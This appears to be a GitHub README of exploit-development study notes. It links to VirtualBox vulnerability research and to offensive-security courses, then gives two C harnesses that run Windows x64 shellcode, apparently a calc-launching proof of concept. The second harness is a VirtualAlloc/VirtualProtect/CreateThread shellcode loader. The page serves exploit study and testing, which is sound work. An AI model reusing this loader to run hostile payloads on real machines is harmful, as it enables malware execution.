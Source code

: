 # Exploit-Application
> Target Analysis CVE
- `VirtualBox`
  * [CVE-Virtual Box](https://qriousec.github.io/post/vbox-pwn2own-2023/) .
  * https://starlabs.sg/blog/2020/04-adventures-in-hypervisor-oracle-virtualbox-research/ .
  * https://github.com/hongphipham95/Vulnerabilities .


- References:
  * `Browser Exploit`: https://github.com/qazbnm456/awesome-cve-poc#cve-2011-2856
  * `LPEworkshop`: https://github.com/sagishahar/lpeworkshop
  * `Modern Binary Difing`: https://docs.google.com/presentation/d/1aLPjH3_4v6Zt2cwzROzMKVBqf8w7vwYfzJCRFbA-xGQ/edit#slide=id.p
  * Questions
    + Begin analysis CVE Linux app service ?
    + Beginner to Advanced Bug Bounty Hunting Course ?


- Shellcode Test
```c
#include <windows.h>
#include <stdio.h>

char code[] = "\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49\x89\xd8\x8b"
"\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x4d\x31\xd2\x44\x8b\x52\x1c\x4d\x01\xc2"
"\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x31\xe4\x44\x8b\x62\x24\x4d\x01\xc4\xeb\x32\x5b\x59\x48\x31\xc0\x48\x89\xe2\x51\x48\x8b"
"\x0c\x24\x48\x31\xff\x41\x8b\x3c\x83\x4c\x01\xc7\x48\x89\xd6\xf3\xa6\x74\x05\x48\xff\xc0\xeb\xe6\x59\x66\x41\x8b\x04\x44\x41\x8b\x04"
"\x82\x4c\x01\xc0\x53\xc3\x48\x31\xc9\x80\xc1\x07\x48\xb8\x0f\xa8\x96\x91\xba\x87\x9a\x9c\x48\xf7\xd0\x48\xc1\xe8\x08\x50\x51\xe8\xb0"
"\xff\xff\xff\x49\x89\xc6\x48\x31\xc9\x48\xf7\xe1\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\xff\xc2"
"\x48\x83\xec\x20\x41\xff\xd6";

int main(int argc, char **argv)
{
  int (*func)();
  func = (int(*)()) code;
  (int)(*func)();
}
```

- https://www.exploit-db.com/shellcodes/49819

```c
// runShellcode.c
// C Shellcode Run Code referenced from reenz0h (twitter: @sektor7net)
#include <windows.h>
void main() {
    void* exec;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
    // Shellcode
    unsigned char payload[] =
        "\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49\x89\xd8\x8b"
        "\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x4d\x31\xd2\x44\x8b\x52\x1c\x4d\x01\xc2"
        "\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x31\xe4\x44\x8b\x62\x24\x4d\x01\xc4\xeb\x32\x5b\x59\x48\x31\xc0\x48\x89\xe2\x51\x48\x8b"
        "\x0c\x24\x48\x31\xff\x41\x8b\x3c\x83\x4c\x01\xc7\x48\x89\xd6\xf3\xa6\x74\x05\x48\xff\xc0\xeb\xe6\x59\x66\x41\x8b\x04\x44\x41\x8b\x04"
        "\x82\x4c\x01\xc0\x53\xc3\x48\x31\xc9\x80\xc1\x07\x48\xb8\x0f\xa8\x96\x91\xba\x87\x9a\x9c\x48\xf7\xd0\x48\xc1\xe8\x08\x50\x51\xe8\xb0"
        "\xff\xff\xff\x49\x89\xc6\x48\x31\xc9\x48\xf7\xe1\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\xff\xc2"
        "\x48\x83\xec\x20\x41\xff\xd6";
    unsigned int payload_len = 205;
    exec = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(exec, payload, payload_len);
    rv = VirtualProtect(exec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);
    WaitForSingleObject(th, -1);
}
```
